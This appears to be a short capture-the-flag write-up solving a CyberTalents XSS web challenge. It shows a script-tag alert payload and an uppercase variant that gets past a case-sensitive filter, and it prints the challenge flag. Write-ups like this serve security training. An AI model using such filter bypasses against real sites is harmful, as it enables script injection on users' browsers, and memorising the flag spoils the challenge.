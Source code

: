 # CyberTalents
## Web Security

### Challenge Name:
 [*Cool Name Effect*](https://cybertalents.com/challenges/web/cool-name-effect)
 
### Challenge Description
Webmaster developed a simple script to do cool effects on your name, but his code not filtering the inputs correctly execute javascript alert and prove it.


Link: [http://34.77.37.110/cool-effect/](http://34.77.37.110/cool-effect/)

### Answer
* Try inject javascript code in the textbox
```js
<script>alert()</script>
```

* The result was "<forbidden alert()" which mean he filtered "script" so try in another word

```js
<SCRIPT>alert()</SCRIPT>
```
 
* You got the Flag!!


### The Flag
 > ciyypjz
